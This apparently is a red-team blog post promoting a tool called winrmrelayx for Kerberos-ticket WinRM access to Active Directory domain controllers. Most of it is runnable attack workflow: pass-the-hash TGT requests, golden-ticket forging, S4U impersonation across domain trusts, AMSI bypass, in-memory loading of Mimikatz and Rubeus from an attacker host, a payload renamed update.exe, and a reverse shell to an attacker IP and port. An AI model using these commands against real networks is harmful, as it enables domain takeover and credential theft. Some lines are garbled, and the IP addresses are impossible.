




Taming the Dog with winrmrelayx for Adversarial Kerberos Attack
Overview
Sometimes, Kerberos authentication in commercial Pentesting software has been a pain.
In a rare case when we have valid TGT, the domain controller is reachable, your target is right there but your tools refuse to authenticate. The error messages are cryptic and the configuration requirements are extensive, and the dog won't behave.
This tool and blog have the solution for technical challenges of Kerberos-based WinRM access and compares implementation approaches across different lateral movement tools.
We'll focus on why certain implementations work in adversarial scenarios where others fail, particularly when system configuration is limited or unavailable.
The Authentication Challenge
Windows Remote Management are one of an attractive target for red teamers, such as SMB, LDAP, etc. Commonly enabled in enterprise AD environments, it uses encrypted channels by default, and often generates less suspicious traffic than SMB-based methods.
Happened however, leveraging WinRM with Kerberos authentication presents specific technical hurdles.
Traditional Kerberos Authentication Flow
Standard Kerberos authentication for WinRM follows this sequence:
- Client possesses TGT from the KDC.
- Client requests a Service Ticket for the target WinRM service.
- KDC validates the TGT and issues a Service Ticket.
- Client presents Service Ticket to WinRM service.
- Service validates ticket with KDC and grants access.
In legitimate enterprise environments, this process is transparent. Workstations are domain-joined while Kerberos configuration is managed via Group Policy, and realm resolution happens automatically.
In adversarial scenarios, these assumptions don't hold.
The System Configuration Dependency Problem
Most Kerberos implementations rely on system-level configuration, primarily the krb5.conf file. This creates challenges in offensive operations.
Configuration Requirements
A typical krb5.conf for Kerberos authentication requires multiple sections:
[libdefaults]
dns_lookup_kdc = false
dns_lookup_realm = false
default_realm = bullet.local
[realms]
bullet.local = {
kdc = DC01.bullet.local
admin_server = DC01.bullet.local
default_domain = bullet.local
}
[domain_realm]
.bullet.local = bullet.local
bullet.local = bullet.localThis configuration explicitly defines the KDC location mainly, followed by realm mappings, and domain relationships. Tools that depend on system Kerberos libraries require this file to be properly configured before authentication attempts.
Why This Matters in Red Team Operations
Consider these common scenarios:
- Operating from containerized attack platforms where
/etc/krb5.confmay not persist. - Pivoting through multiple domains where configuration must change frequently.
- Working in environments where you lack permissions to modify system files.
- Dealing with non-standard realm names or complex trust relationships.
- Attacking from systems where
Kerberos packages aren't installed.
In these situations, tools requiring system-level Kerberos configuration become impractical.
Comparing Authentication Implementations
This are the different tools handle Kerberos authentication, focus on architectural approaches rather than subjective quality assessments.
System Library Approach
Some tools leverage system Kerberos libraries through language-specific bindings. The Ruby GSSAPI implementation, for example, provides Kerberos functionality by wrapping system libraries.
Architecture:
Application → Language Binding → GSSAPI Libraries → krb5.confThe krb5.conf are somewhere imporant containing:
System Kerberos Config Realm Resolution KDC Discovery
Characteristics:
- Relies on properly configured system Kerberos environment
- Requires
krb5.confwith correct realm definitions - Depends on system Kerberos packages being installed
- Realm resolution handled by underlying libraries
- Works well in properly configured enterprise environments
One of approach that are solid and made profit!! for legitimate administrative tasks where the system is properly joined to a domain. For adversarial operations, it introduces dependencies that may not be practical to satisfy.
Pure-Python Implementation Approach
Alternative implementations use pure-Python Kerberos handling, built on frameworks like Impacket kit.
This architectural choice eliminates system dependencies.
Architecture:
Application → Impacket Kerberos → Direct Ticket ParsingThe DTP have:
Extract Realm from TGT
Construct TGS Request
Direct KDC CommunicationCharacteristics:
- Reads ticket cache files directly without system library involvement.
- Extracts realm information from the ticket itself.
- Constructs Kerberos protocol messages in pure Python.
- Communicates directly with KDC using extracted information.
- No requirement, or anything to do for
krb5.confor system packages.
This approach trades the convenience of system integration for operational flexibility in adversarial scenarios.
Practical Demonstration: Authentication Flow Comparison
Let's examine actual authentication attempts against a test environment to understand these differences concretely.
Environment Setup
Test environment configuration:
Domain: bullet.local
Domain Controller: DC01.bullet.local (192.168.282.83)
Target User: Administrator
Authentication Method: Kerberos (TGT-based)Obtaining Initial Credentials
First, we acquire a Ticket-Granting Ticket using obtained NTLM hash:
┌──(kali㉿kali)-[~]
└─$ getTGT.py bullet.local/administrator -dc-ip 192.168.282.83 -no-pass -hashes :db346d691d7acc4dc2625db19f9e3f52This generates administrator.ccache containing our TGT. We export it for tool consumption:
export KRB5CCNAME=administrator.ccacheAt this point, we have everything theoretically needed for Kerberos authentication: a valid TGT, knowledge of the KDC location, and network access to the target.
Attempt 1: System Library-Based Authentication
With properly configured krb5.conf and valid TGT exported, we attempt authentication using a tool that relies on system Kerberos libraries:
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i bullet.local -u Administrator -r DC01.bullet.localThe configuration file is properly set up:
[realms]
bullet.local = {
kdc = DC01.bullet.local
admin_server = DC01.bullet.local
default_domain = bullet.local
}Despite correct configuration, authentication fails:
Warning: User is not needed for Kerberos auth. Ticket will be used
Info: Establishing connection to remote endpoint
Error: An error of type GSSAPI::GssApiError happened
gss_init_sec_context did not return GSS_S_COMPLETE
Cannot find KDC for realm "BULLET.LOCAL"
Error: Exiting with code 1The error indicates realm resolution failure despite proper configuration. This occurs because the GSSAPI library searches for uppercase realm BULLET.LOCAL while the configuration defines lowercase bullet.local.
This case sensitivity issue in the binding between application and system libraries prevents successful authentication.
Other Fail Cases:
┌──(root㉿kali)-[/]
└─# export KRB5CCNAME=Administrator.ccache
┌──(root㉿kali)-[/]
└─# evil-winrm -i 192.168.221.66 -u Administrator -r dc02.tesla.corp --port 5986
Evil-WinRM shell v3.7
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Warning: User is not needed for Kerberos auth. Ticket will be used
Info: Establishing connection to remote endpoint
Error: An error of type GSSAPI::GssApiError happened, message is gss_init_sec_context did not return GSS_S_COMPLETE: Unspecified GSS failure. Minor code may provide more information
Server not found in Kerberos database
Error: Exiting with code 1
Which this could happen due to no Kerberos ccache on the Database, example on my GitHub winrmrelayx.
Attempt 2: Pure-Python Implementation
Using an alternative implementation that doesn't rely on system Kerberos libraries:
┌──(kali㉿kali)-[~]
└─$ python3 evil_winrmrelayx.py -ssl -port 5986 -k -no-pass DC01.bullet.local -dc-ip 192.168.282.83The tool extracts necessary information directly from the cached ticket:
[*] '-target_ip' not specified, using DC01.bullet.local
[*] '-url' not specified, using https://DC01.bullet.local:5986/wsman
[*] using domain and username from ccache: BULLET.LOCAL\administrator
[*] '-spn' not specified, using HTTP/DC01.bullet.local@BULLET.LOCAL
[*] requesting TGS for HTTP/DC01.bullet.local@BULLET.LOCALAuthentication succeeds and we receive a shell:
PS C:\Users\Administrator\Documents> whoami
bullet\administratorThe critical difference: this implementation reads realm information directly from the TGT structure rather than attempting to resolve it through system configuration files.
Full-Interaction:
┌──(kali㉿kali)-[~]
└─$ python3 evil_winrmrelayx.py -ssl -port 5986 -k -no-pass DC01.bullet.local -dc-ip 192.168.282.83
[*] '-target_ip' not specified, using DC01.bullet.local
[*] '-url' not specified, using https://DC01.bullet.local:5986/wsman
[*] using domain and username from ccache: BULLET.LOCAL\administrator
[*] '-spn' not specified, using HTTP/DC01.bullet.local@BULLET.LOCAL
[*] requesting TGS for HTTP/DC01.bullet.local@BULLET.LOCAL
Ctrl+D to exit, Ctrl+C will try to interrupt the running pipeline gracefully
This is not an interactive shell! If you need to run programs that expect
inputs from stdin, or exploits that spawn cmd.exe, etc., pop a !revshell
Special !bangs:
!download RPATH [LPATH] # downloads a file or directory (as a zip file); use 'PATH'
# if it contains whitespace
!upload [-xor] LPATH [RPATH] # uploads a file; use 'PATH' if it contains whitespace, though use iwr
# if you can reach your ip from the box, because this can be slow;
# use -xor only in conjunction with !psrun/!netrun
!amsi # amsi bypass, run this right after you get a prompt
!psrun [-xor] URL # run .ps1 script from url; uses ScriptBlock smuggling, so no !amsi patching is
# needed unless that script tries to load a .NET assembly; if you can't reach
# your ip, !upload with -xor first, then !psrun -xor 'c:\foo\bar.ps1' (needs absolute path)
!netrun [-xor] URL [ARG] [ARG] # run .NET assembly from url, use 'ARG' if it contains whitespace;
# !amsi first if you're getting '...program with an incorrect format' errors;
# if you can't reach your ip, !upload with -xor first then !netrun -xor 'c:\foo\bar.exe' (needs absolute path)
!revshell IP PORT # pop a revshell at IP:PORT with stdin/out/err redirected through a socket; if you can't reach your ip and you
# you need to run an executable that expects input, try:
# PS> Set-Content -Encoding ASCII 'stdin.txt' "line1`nline2`nline3"
# PS> Start-Process some.exe -RedirectStandardInput 'stdin.txt' -RedirectStandardOutput 'stdout.txt'
!log # start logging output to winrmexec_[timestamp]_stdout.log
!stoplog # stop logging output to winrmexec_[timestamp]_stdout.log
PS C:\Users\Administrator\Documents> whoami
bullet\administratorTechnical Analysis: Why Pure-Python Succeeds
The key to understanding this success lies in how Kerberos tickets store information.

TGT Structure and Information Extraction
A Kerberos TGT contains all information needed for subsequent authentication:
TGT Structure:
├── Client Principal (user@REALM)
├── Service Principal (krbtgt/REALM@REALM)
├── Session Key
├── Ticket Lifetime
├── Encryption Type
└── Ticket FlagsThe realm is embedded in the principal names.
A pure-Python implementation can extract this directly:
ccache = CCache.loadFile(os.getenv('KRB5CCNAME'))
domain = ccache.principal.realm['data']
username = ccache.principal.components[0]['data']Once extracted, this information enables direct TGS requests:
spn = f'HTTP/{target}@{realm}'
tgs = getKerberosTGS(spn, domain, kdcHost, tgt, cipher, sessionKey)No external configuration file is consulted. The ticket itself provides all necessary context.
Eliminating Configuration Dependencies
This approach removes several points of failure:
- No parsing of
krb5.confrequired. - No realm resolution through system libraries.
- No case sensitivity issues.
- No dependency on system Kerberos packages.
- No requirement for administrative access to modify configuration.
The trade-off is that the tool must implement complete Kerberos protocol handling, but frameworks like Impacket provide this functionality in a battle-tested library.
Practical Advantages in Red Team Operations
These technical differences translate to operational benefits in several scenarios.
Multi-Domain Engagements
When pivoting across multiple domains, system-dependent tools require reconfiguration for each domain:
┌──(kali㉿kali)-[~]
└─$ vi /etc/krb5.conf
┌──(kali㉿kali)-[~]
└─$ getTGT.py corp.local/user1 ...
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i corp.local ...┌──(kali㉿kali)-[~]
└─$ vi /etc/krb5.conf
┌──(kali㉿kali)-[~]
└─$ getTGT.py subsidiary.local/user2 ...
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i subsidiary.local ...Pure-Python implementations with winrmrelayx eliminate this overhead:
┌──(kali㉿kali)-[~]
└─$ getTGT.py corp.local/user1 ...
┌──(kali㉿kali)-[~]
└─$ export KRB5CCNAME=user1.ccache
┌──(kali㉿kali)-[~]
└─$ python3 evil_winrmrelayx.py -k -no-pass DC01.corp.local ...┌──(kali㉿kali)-[~]
└─$ getTGT.py subsidiary.local/user2 ...
┌──(kali㉿kali)-[~]
└─$ export KRB5CCNAME=user2.ccache
┌──(kali㉿kali)-[~]
└─$ python3 evil_winrmrelayx.py -k -no-pass DC02.subsidiary.local ...The tool automatically adapts to whichever domain the current ticket references.
Containerized Attack Platforms
Docker-based attack platforms may not persist /etc/krb5.conf between container restarts. Tools that can extract configuration from tickets eliminate this concern.
Restricted Environments
In scenarios where you've obtained a shell with limited privileges, modifying system Kerberos configuration may be impossible.

This Kerberos Ticket-based authentication works regardless of local configuration.
Rapid Credential Testing
When testing multiple sets of credentials, avoiding configuration file modifications speeds operations significantly. Each TGT is self-contained with its associated realm information.
Additional Capabilities in winrmrelayx
Beyond pure authentication handling, the tool provides features specifically useful for post-exploitation scenarios.
AMSI Bypass Integration
Built-in AMSI bypass functionality for initial access:
PS C:\Users\Administrator\Documents> !amsiThis patches AMSI in the current session without requiring manual PowerShell commands or external scripts.
Remote Script Execution
Execute PowerShell scripts directly from HTTP URLs using ScriptBlock smuggling:
PS C:\Users\Administrator\Documents> !psrun http://192.168.282.100/Invoke-Mimikatz.ps1The script is loaded and executed without touching disk. If network access from the target to your host isn't available, XOR encoding allows upload and execution:
PS C:\Users\Administrator\Documents> !upload -xor Invoke-Mimikatz.ps1 C:\Temp\script.ps1>PS C:\Users\Administrator\Documents> !psrun -xor C:\Temp\script.ps1.NET Assembly Execution
Load and execute .NET assemblies from URLs or local paths:
PS C:\Users\Administrator\Documents> !netrun http://192.168.282.100/Rubeus.exe kerberoastThis uses in-memory assembly loading to execute tools without writing executables to disk.
File Transfer Capabilities
Upload and download functionality built into the shell:
PS C:\Users\Administrator\Documents> !download C:\Users\Administrator\Desktop\secrets.txtPS C:\Users\Administrator\Documents> !upload payload.exe C:\Temp\update.exeReverse Shell Integration
For situations requiring true interactive shells with stdin:
PS C:\Users\Administrator\Documents> !revshell 192.168.282.100 9001This spawns a reverse shell with all standard streams redirected through a network socket, useful for running interactive programs that WinRM's command-based approach can't handle effectively.
Comparing Feature Sets
Different WinRM clients emphasize different capabilities based on their design goals.
Evil-WinRM
Strengths:
- Mature Ruby implementation with extensive testing.
- Rich post-exploitation features including PowerShell menu system.
- Built-in script loading and
.NETassembly execution. - Cross-platform support through Ruby.
- Active development and community support.
Considerations:
- Kerberos support depends on system GSSAPI configuration.
- Requires
krb5.confproperly configured for ticket-based auth. - Ruby gem dependencies may require additional setup.
Ideal Use Cases:
- Standard NTLM-based authentication scenarios.
- Environments where Kerberos configuration is manageable.
- Post-exploitation when rich Ruby ecosystem is valuable.
winrmrelayx
Strengths:
- Pure-Python Kerberos implementation removes system dependencies.
- Direct ticket cache parsing enables configuration-free authentication.
- Impacket integration provides robust credential handling.
- Built-in
AMSI bypassand memory-based execution. - Nim-based implant capabilities for C2 integration.
Considerations:
- Newer tool with smaller community.
- Feature set focused on specific operational needs.
- Python dependency may be larger than Ruby in some environments.
Ideal Use Cases:
- Ticket-based authentication scenarios.
- Multi-domain engagements requiring frequent realm changes.
- Containerized or restricted environments.
- Operations leveraging Impacket toolkit extensively.
Impacket psexec/wmiexec
Strengths:
- Battle-tested lateral movement tools.
- Excellent Kerberos support through same framework.
- Part of comprehensive offensive toolkit.
Considerations:
- Uses SMB/RPC protocols which may be more heavily monitored.
- SMB port 445 may be blocked where WinRM 5985/5986 is open.
- Command-line oriented rather than interactive shell.
Ideal Use Cases:
- Environments where SMB access is available.
- Single-command execution scenarios.
- Integration with other Impacket tools.
Protocol-Level Detection Considerations
Understanding how different lateral movement methods appear to defenders helps in protocol selection.
SMB-Based Methods
Tools like psexec and wmiexec generate distinctive traffic:
SMB Protocol Events:
- SMB connection to IPC$
- Service installation or WMI namespace access
- Command execution through service or WMI
- Output retrieval through SMB shares or WMI
Common Detection Points:
- Event ID 7045 (Service Installation)
- Event ID 4688 (Process Creation from Services)
- Network traffic to port 445
- SMB named pipe access patternsWinRM-Based Methods
WinRM generates different artifacts:
WinRM Protocol Events:
- HTTPS/HTTP connection to port 5986/5985
- WSMan authentication
- PowerShell process spawning
- Command execution in PowerShell context
Common Detection Points:
- Event ID 4624 (Logon Type 3)
- Event ID 4648 (Explicit Credential Logon)
- PowerShell script block logging
- Network traffic to WinRM portsNeither approach is inherently more detectable, mature defensive programs monitor both. Protocol choice often depends more on which ports are accessible than detection concerns.
Implementation Deep Dive: Ticket Handling
For those interested in the technical implementation, here's how pure-Python Kerberos ticket handling works in practice.
CCache File Structure

Kerberos credential caches use a binary format defined in RFC 4120. The structure contains:
CCache File Structure:
├── File Format Version
├── Header (optional, version 4+)
├── Primary Principal
│ ├── Name Type
│ ├── Realm
│ └── Components (username, etc.)
└── Credentials List
└── For each credential:
├── Client Principal
├── Server Principal
├── Encryption Key
├── Authentication Time
├── Start Time
├── End Time
└── Ticket DataParsing and Extraction
Impacket's CCache implementation parses this structure and provides access to embedded information:
from impacket.krb5.ccache import CCache
ccache = CCache.loadFile(ticket_path)
realm = ccache.principal.realm['data'].decode('utf-8')
username = ccache.principal.components[0]['data'].decode('utf-8')
credential = ccache.credentials[0]
tgt = credential['ticket'].getData()
session_key = credential['key']['keyvalue']With this information extracted, the tool can construct a TGS request without consulting any external configuration.
TGS Request Construction
Once realm and principal information is available, requesting a Service Ticket becomes straightforward:
from impacket.krb5.kerberosv5 import getKerberosTGS
service_principal = f'HTTP/{target_host}@{realm}'
tgs, cipher, session_key_tgs = getKerberosTGS(
service_principal,
domain,
kdc_host,
tgt,
cipher,
session_key
)This TGS can then be used for WinRM authentication through standard SPNEGO negotiation.
Operational Workflows
Let's examine complete workflows for common scenarios.
Scenario 1: Basic Domain Access
Starting from NTLM hash obtained through credential dumping:
┌──(kali㉿kali)-[~]
└─$ getTGT.py bullet.local/administrator -dc-ip 192.168.282.83 -hashes :db346d691d7acc4dc2625db19f9e3f52
┌──(kali㉿kali)-[~]
└─$ export KRB5CCNAME=administrator.ccache
┌──(kali㉿kali)-[~]
└─$ python3 evil_winrmrelayx.py -ssl -port 5986 -k -no-pass DC01.bullet.local -dc-ip 192.168.282.83Result: Direct shell access using only the NTLM hash, no plaintext password required.
Scenario 2: Golden Ticket Usage
After obtaining KRBTGT hash and forging a Golden Ticket:
┌──(kali㉿kali)-[~]
└─$ ticketer.py -nthash (krbtgt_hash) -domain-sid (domain_sid) -domain bullet.local administrator
┌──(kali㉿kali)-[~]
└─$ export KRB5CCNAME=administrator.ccache
┌──(kali㉿kali)-[~]
└─$ python3 evil_winrmrelayx.py -ssl -port 5986 -k -no-pass DC01.bullet.local -dc-ip 192.168.282.83The forged ticket is accepted and processed identically to legitimate tickets.
Scenario 3: Cross-Domain Trust Exploitation
When exploiting domain trust relationships:
┌──(kali㉿kali)-[~]
└─$ getTGT.py child.bullet.local/user -dc-ip 192.168.282.85 -hashes :hash
┌──(kali㉿kali)-[~]
└─$ export KRB5CCNAME=user.ccacheIn other ways:
┌──(kali㉿kali)-[~]
└─$ getST.py -spn HTTP/DC01.bullet.local -impersonate Administrator child.bullet.local/user
┌──(kali㉿kali)-[~]
└─$ export KRB5CCNAME=Administrator.ccache
┌──(kali㉿kali)-[~]
└─$ python3 evil_winrmrelayx.py -ssl -port 5986 -k -no-pass DC01.bullet.local -dc-ip 192.168.282.83This demonstrates S4U2Self abuse across trust boundaries, with WinRM access in the parent domain using credentials from the child domain.
Best Practices and Operational Security
Several considerations improve operational security when using Kerberos-based access methods.
Ticket Lifetime Management
Kerberos tickets have defined validity periods. Monitor ticket expiration:
klist -c administrator.ccacheTickets typically expire after 10 hours by default. Renew or obtain fresh tickets before expiration to maintain access.
Network Indicators
Kerberos generates distinctive network patterns. Using Kerberos authentication from unusual sources may trigger alerts. Consider:
- Authentication from IP addresses not associated with domain workstations.
- Unusual timing pattern.s
- Rapid ticket requests suggesting automated scanning.
- TGS requests for services the account doesn't typically access.
I think that's it for everything, continued later with Part 02 if needed.
Shout Outs!
To Fortra for supporting winrmrelayx impacket-based: